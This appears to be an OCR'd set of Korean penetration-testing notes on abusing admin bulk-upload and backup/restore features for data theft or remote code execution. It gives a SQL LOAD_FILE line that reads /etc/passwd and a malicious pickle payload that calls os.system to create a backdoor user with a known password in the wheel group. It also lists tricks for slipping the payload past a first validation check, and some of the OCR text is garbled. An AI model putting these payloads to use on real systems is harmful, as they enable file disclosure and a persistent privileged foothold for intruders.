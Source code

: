 # Integrity Verification  
---------------------------------------------------------------------
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나  

특정 설정을 백업/복구하는 기능이 있을 경우  

해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  

SELECT LOAD_FILE('/etc/passwd'); --  

(sql과 관련된 파일이 있을 경우)  

---------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
